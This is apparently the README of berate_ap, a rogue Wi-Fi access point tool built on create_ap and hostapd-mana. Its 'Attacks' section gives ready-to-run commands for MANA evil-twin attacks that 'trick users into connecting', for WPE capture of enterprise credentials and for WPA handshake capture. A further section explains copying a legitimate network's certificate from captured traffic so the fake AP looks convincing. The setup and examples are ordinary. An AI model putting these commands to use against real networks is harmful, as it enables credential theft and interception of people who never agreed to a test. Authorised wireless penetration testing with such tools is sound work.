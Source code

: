 # Berate_ap 
[Create_ap](https://github.com/oblique/create_ap) has been modified to run EAP networks and [hostapd-mana](https://github.com/sensepost/hostapd-mana) with multiple options

## Setup
This script requires hostapd-mana to be in the path.

This may be done by adding the binary to your path directly:
```
export PATH="$PATH:/path/to/hostapd-mana"
```
To make this permanent you may add to your shells .rc file

or you may link hostapd-mana into a directory that is within your path
```
cd /usr/bin
sudo ln -s /path/to/hostapd-mana hostapd-mana
```

## Attacks

Run Mana to trick users into connecting to your access point. The eap users file is not passed so that the default mana eap user file is used: 

    berate_ap --eap --mana wlan0 eth0 MyAccessPoint 
    
Mana WPE attacks are no longer done by default when using `--mana` and have to be enabled seperatly:

    berate_ap --eap --mana-wpe wlan0 eth0 MyAccessPoint
    
Other Mana WPE options avaliable are `--mana-eapsuccess` and `--mana-eaptls`, the location of the credout file is by default `/tmp/hostapd.credout` but may be specified with `--mana-credout <file>` (Preferable to use full path). More information on these may be found in the [Hostapd-mana wiki](https://github.com/sensepost/hostapd-mana/wiki/MANA-EAP-Options-(aka-WPE)).

Run Mana with [WPA capture](https://github.com/sensepost/hostapd-mana/wiki/MANA-WPA-2-Options-(handshakes)) enabled. This currently requires that mana attacks be disabled. hccapx will be placed at `/tmp/hostapd.hccapx`, this may be specified with `--mana-wpaout <file>`:

    berate_ap --mana-wpa -n wlan0 <target Network Name> "ANYPASSWORD"

Run Mana in loud mode to show devices every access point seen by Mana:

    berate_ap --eap --mana --mana-loud wlan0 eth0 MyAccessPoint 

Run Mana and bridge the network connection to your ethernet address: 

    berate_ap --eap --mana -m bridge wlan0 eth0 MyAccessPoint 

Run Mana and be stingy by not providing any upstream Internet access:

    berate_ap --eap --mana -n wlan0 MyAccessPoint  

<!--Run Mana and host one of each network type to catch as many people as possible.

    berate_ap --trifecta --mana wlan0 eth0 MyAccessPoint -->

## More Convincing Certificate

When running your Rogue AP users may be presented with your certificate when authenticating, it is in your interest to make your certificate look as similar to the legitimate APs as possible. When running a EAP access point `berate_ap` will ask you to fill in fields to generate the certificate to be used, try input sensible values. 
To get the values of the certificate in use by the legitimate AP use [this script](https://gist.github.com/singe/40bda2a1772aaf4903515cc4e436afe5#gistcomment-2848828) to extract the certificate from a packet capture: 
```
./extract_EAP.sh -r <capture file>
```
or interface in monitor mode:
```
airmon-ng start <interface> <channel>
./extract_EAP.sh -i <interface>
```
you may then view the certificate with:
```
openssl x509 -text -inform der -in <capturedcert>.der
```
Which will allow you to see the values set in the cert so that with berate you may generate a more appealing looking AP.

## Features
* Create an AP (Access Point) at any channel.
* Choose one of the following encryptions: WPA, WPA2, WPA/WPA2, Open (no encryption).
* Support for Enterprise setups
* Hide your SSID.
* Disable communication between clients (client isolation).
* IEEE 802.11n & 802.11ac support
* Internet sharing methods: NATed or Bridged or None (no Internet sharing).
* Choose the AP Gateway IP (only for 'NATed' and 'None' Internet sharing methods).
* You can create an AP with the same interface you are getting your Internet connection.
* You can pass your SSID and password through pipe or through arguments (see examples).


## Dependencies
### General
* bash (to run this script)
* util-linux (for getopt)
* procps or procps-ng
* hostapd
* iproute2
* iw
* iwconfig (you only need this if 'iw' can not recognize your adapter)
* haveged (optional)

### For 'NATed' or 'None' Internet sharing method
* dnsmasq
* iptables


## Installation
### Generic
    git clone https://github.com/sensepost/berate_ap

## Examples
### No passphrase (open network):
    berate_ap wlan0 eth0 MyAccessPoint

### WPA + WPA2 passphrase:
    berate_ap wlan0 eth0 MyAccessPoint MyPassPhrase

### AP without Internet sharing:
    berate_ap -n wlan0 MyAccessPoint MyPassPhrase

### Bridged Internet sharing:
    berate_ap -m bridge wlan0 eth0 MyAccessPoint MyPassPhrase

### Bridged Internet sharing (pre-configured bridge interface):
    berate_ap -m bridge wlan0 br0 MyAccessPoint MyPassPhrase

### Internet sharing from the same WiFi interface:
    berate_ap wlan0 wlan0 MyAccessPoint MyPassPhrase

### Choose a different WiFi adapter driver
    berate_ap --driver rtl871xdrv wlan0 eth0 MyAccessPoint MyPassPhrase

### No passphrase (open network) using pipe:
    echo -e "MyAccessPoint" | berate_ap wlan0 eth0

### WPA + WPA2 passphrase using pipe:
    echo -e "MyAccessPoint\nMyPassPhrase" | berate_ap wlan0 eth0

### Enable IEEE 802.11n
    berate_ap --ieee80211n --ht_capab '[HT40+]' wlan0 eth0 MyAccessPoint MyPassPhrase

### Client Isolation:
    berate_ap --isolate-clients wlan0 eth0 MyAccessPoint MyPassPhrase

### Enterprise Network built-in RADIUS
    berate_ap --eap --eap-user-file /tmp/users.eap_hosts --eap-cert-path /tmp/certificates wlan0 eth0 MyAccessPoint 

### Enterprise Network Remote RADIUS
    berate_ap --eap --radius-server 192.168.1.1:1812 --radius-secret=P@ssw0rd wlan0 eth0 MyAccessPoint

## Systemd service
Using the persistent [systemd](https://wiki.archlinux.org/index.php/systemd#Basic_systemctl_usage) service
### Start service immediately:
    systemctl start create_ap

### Start on boot:
    systemctl enable create_ap


## License
FreeBSD

